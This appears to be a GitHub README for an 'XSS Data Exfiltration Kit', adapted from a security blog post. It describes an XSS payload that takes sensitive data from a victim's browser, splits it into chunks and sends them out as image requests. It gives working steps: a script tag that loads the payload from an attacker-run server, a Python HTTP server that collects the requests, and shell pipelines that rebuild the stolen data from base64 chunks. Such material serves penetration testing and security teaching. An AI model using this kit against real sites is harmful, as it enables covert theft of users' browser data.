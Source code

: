 # XSS-Data-Exfil-Kit
XSS Data Exfiltration Tool

Edit of code this post -  https://www.trustedsec.com/blog/simple-data-exfiltration-through-xss/

This code demonstrates data exfiltration through an XSS (Cross-Site Scripting) vulnerability. The XSS payload is designed to extract sensitive data from the victim's web browser and divide it into manageable chunks. These chunks are then sent out as image requests, with the data embedded in the image filenames. The process also includes example commands and a Python script for reconstructing the original data.

For a detailed walkthrough with screenshots, please refer to our blog post at this link: Simple Data Exfiltration Through XSS.

To make the payload target specific sensitive data accessible to the victim, you can customize the "exfilPayload.js" file.

Here are the steps involved:

<script src="http://127.0.0.1/exfilPayload.js"></script>

Start a Python HTTP server in the directory where "exfilPayload.js" is located:

bash
python -m SimpleHTTPServer 80

"exfilPayload.js" will send the data chunks to the same server.

Collect these requests into a text file and clean them up:

bash
grep '/exfil/' exfilledData.txt | awk -F'/exfil/' '{print $2}' | awk -F'/' '{print $1 " " $2}' | awk -F'.jpg' '{print $1}' | while read i; do echo $i ; done > exfilledDataCleaned.txt


Use the provided Python script to reconstruct the original data.

Finally, assemble the data chunks together using:

bash    
for file in ./{0..225}.chunk; do cat $file | base64 -d; done > restoredSuperSecretData.html

                                        


                                               
